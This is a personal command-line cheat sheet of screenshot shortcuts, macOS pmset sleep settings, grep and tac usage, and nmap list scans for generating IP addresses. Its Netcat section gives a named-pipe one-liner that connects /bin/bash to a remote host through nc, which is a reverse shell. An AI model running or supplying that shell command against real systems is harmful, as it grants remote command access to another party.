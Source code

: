 # Screenshots
## OS X
- Command-Shift-3: Full screen to desktop
- Command-Shift-4, select an area: Area to desktop
- Command-Shift-4, space, click a window: Window to desktop
- Command-Control-Shift-3: Full screen to clipboard
- Command-Control-Shift-4, select an area: Area to clipboard
- Command-Control-Shift-4, space, click a window: Window to clipboard

## Windows
- PrtScr: full screenshot to clipboard
- Windows-PrtScr: full screen to "Screenshots" folder
- Alt-PrtScr: active window to clipboard


# OS X Power Saving
- Temporarily turn off sleep
```
sudo pmset noidle
```
- Turn off sleep
```
sudo pmset sleep 0
```
- Sleep after 15 minutes
```
sudo pmset sleep 15
```

# Netcat
- When -e flag does not exist:
```
mknod /tmp/datapipe p
/bin/bash 0</tmp/datapipe | nc remote.host.com port 1>/tmp/datapipe
```

# grep
- multiple search terms:
```
grep -e term1 -e term2 <file>
```

- exclude term:
```
grep -v term <file>
```

- exclude multiple terms:
```
grep -v -e term1 -e term2 <file>
```

- Print file names and line numbers for matches:
```
grep -Hn term
```

# tac (backwards cat)

This is part of the *GNU coreutils* package. It reads and prints a
file from the bottom up. VERY useful for logfiles.

- Linux
```
tac logfile | less
```

- OS X / BSD
```
gtac logfile | less
```

- BSD *tail -r*
```
tail -r logfile | less
```

# Using Nmap to generate lists of IP addresses

Sometimes a tool will not allow you use CIDR notation to express
network addresses, or will require you to provide it a list of IP
addresses. Nmap provides the -sL (list scan) option that can generate
these lists easily, complete with host and network exclusion, ranges,
and so on:

```
nmap -n -sL 10.10.0.0/22 10.100.0.32/27 192.168.0.2-254 \
            --exclude 192.168.0.250,10.10.0.3.254       \
            | grep "Nmap scan report for"               \
            | awk {'print $5'}
```

